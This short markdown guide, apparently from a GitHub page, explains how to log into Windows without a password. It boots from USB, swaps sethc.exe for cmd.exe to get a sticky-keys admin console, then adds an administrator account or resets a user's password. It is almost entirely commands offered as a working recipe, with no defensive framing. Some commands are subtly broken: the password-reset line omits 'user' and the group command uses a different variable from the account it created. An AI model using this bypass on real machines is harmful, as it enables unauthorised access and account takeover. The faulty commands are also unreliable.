 # Windows Login without Password

* Boot from USB-Stick:
* change `sethc.exe` to `cmd.exe`:

```bash
cd /media/sda2/Windows/System32
mv  sethc.exe sethc.bak
cp cmd.exe sethc.exe
```

* Boot into Windows
* press <kbd>Shift</kbd> 5 times to open admin console
* Create new user:

```cmd
net user %user% %password% /add
net localgroup Administrators %NewAdmin% /add
```

* or change password of existing user:

```cmd
net %user% %new_password%
```

* Log in
* Rename `sethc.bak` to `sethc.exe`:

```cmd
move /y c:\windows\system32\sethc.bak c:\windows\system32\sethc.exe
```

